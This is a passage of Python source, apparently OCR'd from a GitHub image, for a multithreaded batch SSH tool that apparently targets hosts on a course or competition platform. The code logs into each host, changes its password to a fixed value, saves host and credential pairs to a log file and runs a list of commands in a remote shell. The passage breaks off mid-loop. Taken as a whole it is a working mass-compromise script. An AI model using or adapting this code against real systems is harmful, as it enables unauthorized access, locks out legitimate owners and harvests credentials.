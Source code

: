 ```python
        print("try change password")
        if self.username != "root":
            stdin.write(f"{self.password}\n")
        stdin.write(f"{NEW_PASSWORD}\n")
        stdin.write(f"{NEW_PASSWORD}\n")
        stdout.read()
        if "success" in stderr.read().decode('utf-8'):
            self.password = NEW_PASSWORD
            return True
        else:
            return False

    def save_log(self, filename):
        with open(filename, "a+") as f:
            f.write("%s %s %s %s\n" %
                    (self.host, self.port, self.username, self.password))

    def get_info(self):
        return (self.host, self.port, self.username, self.password)

    def run_all_commands(self):
        for command in RUNNING_COMMANDS:
            shell = self.ssh.invoke_shell()
            shell.send(command + "\n")
            time.sleep(1)


def single_ssh(host, port, username, password):
    try:
        ssh_client = SSH_Client(host, port, username, password)
        if TRY_CHANGE_PASSWORD == True:
            if ssh_client.change_password():
                print(" [+] %s (Success!)" % host)
                ssh_client.save_log("success.log")
            else:
                return None

        ssh_client.run_all_commands()
        print(" [+] %s (Success!)\r" % host)
        return ssh_client.get_info()
    except Exception as e:
        print(" [-] %s (Failed!)\r" % host)
        return None
    finally:
        try:
            ssh_client.ssh.close()
        except:
            pass


def batch_ssh():
    print(" [+] Start batch ssh")
    hosts = get_all_hosts_filter_port(
        target_port=22, courseId=61, sectionID=665)
    print(" [+] Total %d hosts" % len(hosts))

    pool = ThreadPoolExecutor(max_workers=MAX_WORKERS)

    ssh_threads = []

    for host in hosts:
        ip = host.get("ip")
        port = host.get("ports")[0][1]
```